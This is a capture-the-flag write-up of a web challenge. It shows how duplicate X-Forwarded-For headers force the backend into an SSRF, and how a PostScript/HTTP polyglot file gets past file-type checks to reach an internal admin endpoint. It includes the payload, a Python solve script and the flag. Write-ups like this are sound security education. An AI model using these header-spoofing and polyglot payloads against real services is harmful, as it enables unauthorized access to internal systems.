

# web/ps-converter

>**ps converter** (393 pts / 4 solves)

>Author: hugeh0ge

>Description: Try my Postscript converter!

The challenge is a webapp that lets us upload a [PostScript](https://en.wikipedia.org/wiki/PostScript) program, converts it to PDF and shows the result.



Looking at the source code, we find out that the app is divided into 4 services: backend, frontend, flag and proxy.

In the frontend, the `/converter` endpoint is the interface where we can upload the PostScript file to be converted, which gets proxied to the root `/` endpoint of the backend.

In the backend, there's also an `/admin` endpoint that performs a request to the `/showmeflag` endpoint of the flag service and shows the output (flag), as long as we set a `Client-Ip` request header with value `127.0.0.1` or the backend IP, which is `123.45.67.102`.  

```go
client_ip_str := req.Header.Get("Client-Ip")
client_ip, err := net.ResolveIPAddr("ip", client_ip_str)
if check_err(err) { return }
my_ip, err := net.ResolveIPAddr("ip", "backend")
if check_err(err) { return }

if client_ip_str != "127.0.0.1" && !client_ip.IP.Equal(my_ip.IP) {
fmt.Fprintln(w, "You are not allowed to see the flag!")
return
}

res, err := http.PostForm("http://flag:3000/showmeflag", url.Values{}) 
if check_err(err) { return }
defer res.Body.Close()
```

However, the proxy doesn't allow direct external access the `/admin` endpoint of the backend. We need to find a way to perform SSRF as an internal request and read the output.

When the PostScript file we upload reaches the backend, the raw content is sent over TCP to the last comma-separated value of the `X-Forwarded-For` header, which would normally be the frontend IP (`123.45.67.100`) where the nginx server is. The frontend then converts the PostScript file to PDF.

```go
x_forwarded_for := req.Header.Get("X-Forwarded-For")
ips := strings.Split(x_forwarded_for, ", ")
ps2pdf := ips[len(ips)-1]
tcp_addr, err := net.ResolveTCPAddr("tcp", ps2pdf + ":3000")
conn, err := net.DialTCP("tcp", nil, tcp_addr)
if check_err(err) { return }

_, err = conn.Write(script)
if check_err(err) { return }
conn.CloseWrite()

var resp []byte
resp, err = io.ReadAll(conn)
if check_err(err) { return }
```

```bash
sudo -u user socat TCP-L:3000,reuseaddr,fork EXEC:"/run_ps2pdf.sh"
```

To perform SSRF, we need to spoof the `X-Forwarded-For` header so that the value of `ps2pdf` in the above code becomes an arbitrary host of our choosing instead of the frontend.

Using Burp Suite, we can try appending a fake `X-Forwarded-For` header to the POST `/converter` request.

```
X-Forwarded-For: test
```

However, we'll realize that it doesn't work because the frontend IP `123.45.67.100` gets appended by the proxy when it reaches the backend.

```
X-Forwarded-For: backend, 123.45.67.100
```

But if we send duplicate `X-Forwarded-For` headers, we realize that only the first one is taken, without the `123.45.67.100` being appended! By sending the following headers, we can make the backend perform a TCP-based SSRF to any host we want, for example the backend itself.

```
X-Forwarded-For: backend
X-Forwarded-For: dummy
```

Since HTTP is based on TCP, we can induce an SSRF to the `/admin` endpoint and read the flag if we manage to upload a PostScript file like this:

```
GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, the backend checks if the file we upload is actually a valid PostScript file before sending it, so we need to find a way to modify our payload so that it becomes both a valid HTTP request and a valid PostScript file.

First, the backend checks if our file is a PostScript file with the Linux `file` command.

```go
// First, check if the posted file is actually a Postscript file.
// 1. check `file` output
cmd := exec.Command("file", "-")
cmd.Stdin = bytes.NewReader(script)
var stdout1 bytes.Buffer
var stderr1 bytes.Buffer
cmd.Stdout = &stdout1
cmd.Stderr = &stderr1

err = cmd.Run()
if check_err(err) { return }

err_str1 := stderr1.String()
if err_str1 != "" {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusInternalServerError)
    fmt.Fprintf(w, "file returned error: [redacted]\n")
    return
}

out_str1 := stdout1.String()
if !strings.Contains(out_str1, "PostScript document text") {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusBadRequest)
    fmt.Fprintf(w, "Get out, poor hacker!\n")
    return
}
```

On the [Wikipedia page](https://en.wikipedia.org/wiki/PostScript), we find out that the magic number of the PostScript file format is `%!`, which means our file needs to begin with `%!` to bypass the first check.

```
%!GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, would the Go HTTP server (which the backend uses) still accept this as a valid GET request? Suprisingly, yes! Even if we append `%!`, Go still considers it to be the same request. However, if we try to perform SSRF to the `/showmeflag` endpoint of the flag server to read the flag directly, we will get a Bad Request error, because the flag server uses the Python HTTP server which doesn't consider it to be a valid request unlike Go.

Now, we need to bypass the second check, which verifies if the `ps2ps` tool can process the PostScript file without errors, which means that our payload must have valid PostScript syntax. With the payload above, we will get an error because the lines with our request headers are not valid PostScript.

```go
// 2. check if ps2ps can actually process the file
cmd = exec.Command("ps2ps", "/dev/stdin", "/dev/stdout")
cmd.Stdin = bytes.NewReader(script)
var stdout2 bytes.Buffer
var stderr2 bytes.Buffer
cmd.Stdout = &stdout2
cmd.Stderr = &stderr2

err = cmd.Run()
if check_err(err) { return }

err_str2 := stderr2.String()
if err_str2 != "" {
w.Header().Set("Content-Type", "text/plain")
w.WriteHeader(http.StatusInternalServerError)
fmt.Fprintf(w, "ps2ps returned error: [redacted]\n")
return
}
```

In PostScript, a comment begins with `%` so I first tried to comment out the lines with `Host` and `Client-Ip`. However, it didn't work because the Go HTTP server couldn't parse the headers correctly with `%` appended. Moreover, multi-line comments do not exist in PostScript, so using comments seemed like a dead-end.

```
%!GET /admin HTTP/1.1
%Host: backend
%Client-Ip: 127.0.0.1
```

After some research looking at the [commands available in PostScript](https://personal.math.ubc.ca/~cass/courses/ps.html), I found out that the `quit` command can terminate interpretation of the program, which means that if we put a `quit` command before out request headers, `ps2ps` will not return any error because it will terminate before trying to interpret our headers!

```
%!GET /admin HTTP/1.1
quit
Host: backend
Client-Ip: 127.0.0.1
```

However, it is still not sufficient because now the Go HTTP server will try to parse the `quit` as a request header and throw an error. Here is how I fixed this:

```
%!GET /admin HTTP/1.1
quit%: dummy
Host: backend
Client-Ip: 127.0.0.1


```

The Go server will interpret the second line as a request header with name `quit%` and value `dummy`, while the PostScript interpreter will treat everything after `%` as a comment. Notice that we add some CRLF at the end to conform to the HTTP protocol. This becomes our final payload (`solve.ps`).

Now, we only need to post this file to the `/converter` endpoint, while spoofing the `X-Forwarded-For` header. I use the `httpx` Python package in my solve script (`solve.py`) because `requests` doesn't support duplicate headers. You could also simply add the headers manually with Burp Suite.

```python
import httpx

headers = [
    ('X-Forwarded-For', 'backend'),
    ('X-Forwarded-For', 'dummy')
]
files = {
    'file': open('solve.ps', 'rb')
}
r = httpx.post('http://ps-converter.2023.ricercactf.com:51514/converter', headers=headers, files=files)

print(r.text)
```

After executing the script, we get the response containing the flag!

```
RicSec{0mg_It_d035nt_l00k_anyth1n9_f6b0c427d3e2}
```
